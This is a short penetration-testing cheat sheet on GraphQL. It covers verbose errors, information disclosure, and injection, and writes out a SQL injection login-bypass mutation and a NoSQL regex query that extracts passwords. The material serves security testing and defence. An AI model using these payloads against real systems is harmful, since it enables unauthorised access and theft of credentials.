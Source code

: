 GraphQL has a [nice and expressive way of returning errors](https://spec.graphql.org/June2018/#sec-Errors). However, error messages can be too informative. Try to cause errors, for instance by fuzzing parameters, error messages can reveal details about the error, actual paths on the system, chunks of code or queries, etc.

## GraphQL injection

Even though GraphQL is strongly typed, SQL, NoSQL and Command injections are still possible since GraphQL is just a layer between a client and backend.

```graphql
mutation { 
    login(input: {
        user: "admin", 
        password: "password' or 1=1 -- -"
    }) { 
        success
    } 
}

mutation {
    users(search: "{password: { $regex: \".*\"}, name:Admin }") {
        id
        name
        password
    }
}
```

## Information disclosure

Often the GraphQL API is exposed a lot of information, such private data, debug information, hidden data or stacktraces.

References:
- [Team object in GraphQL disclosed total number of whitelisted hackers](https://hackerone.com/reports/342978)
- [Team object exposes amount of participants in a private program to non-invited users](https://hackerone.com/reports/380317)

# References

- [GraphQL Specification](https://spec.graphql.org/)
- [Practical GraphQL attack vectors](https://jondow.eu/practical-graphql-attack-vectors/)
- [Public GraphQL APIs](https://github.com/APIs-guru/graphql-apis)
- [Apollo Docs: GraphQL schema basics](https://www.apollographql.com/docs/apollo-server/schema/schema/)
